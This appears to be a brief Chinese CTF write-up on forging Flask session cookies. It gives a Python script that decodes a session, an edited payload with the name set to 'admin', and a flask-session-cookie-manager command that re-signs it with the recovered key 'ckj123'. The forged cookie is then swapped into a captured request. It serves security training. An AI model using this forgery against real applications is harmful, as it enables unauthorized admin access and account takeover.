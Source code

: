 <https://www.cnblogs.com/chrysanthemum/p/11722351.html>
<https://www.cnblogs.com/murkuo/p/15174413.html>
先获取session的解密原session。
python ctf/flask_decode.py   .eJw9kE-xxx

session.get('a')  即 session['a'] 即 jwt令牌中的a参数。
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
修改里面的载体，如user改admin。
```
{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}
```

再加密：
使用密钥+载体字符生成新session脚本：
<https://github.com/noraj/flask-session-cookie-manager>

```
python flask_session_cookie_manager3.py encode -s '密钥' -t '载体'

python flask_session_cookie_manager3.py encode -s "ckj123" -t  "{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}"
```


最后抓包替换即可。